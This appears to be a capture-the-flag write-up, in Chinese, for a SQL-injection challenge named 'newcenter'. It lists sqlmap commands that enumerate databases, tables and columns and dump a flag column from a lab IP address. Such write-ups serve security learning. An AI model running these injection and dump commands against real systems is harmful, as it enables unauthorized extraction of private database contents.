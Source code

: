 ## newcenter

输入 hello’ 报错

输出 hello‘# 正常

可能存在 sql注入

----

### sqlmap -r
brup 抓包 保存到文件 1
```shell
# --dbs 所有数据库
sqlmap -r ./1 -p search --dbs

# 所有表
sqlmap -r ./1 -p search -D news --tables

# 所有字段
sqlmap -r ./1 -p search -D news -T secret_table --columns

# flag
sqlmap -r ./1 -p search -D news -T secret_table -C 'fl4g' --dump
```
---
### sqlmap -u
```shell
# --dbs 所有数据库
sqlmap -u http://61.147.171.105:57278/ --data "search=1" --dbs       

# 所有表
sqlmap -u http://61.147.171.105:57278/ --data "search=1" -D news --tables

# 所有字段
sqlmap -u http://61.147.171.105:57278/ --data "search=1" -D news -T secret_table --columns

# flag
sqlmap -u http://61.147.171.105:57278/ --data "search=1" -D news -T secret_table -C 'fl4g' --dump
```

### flag
![img.png](imgs/newscenterSQLmapFlag.png)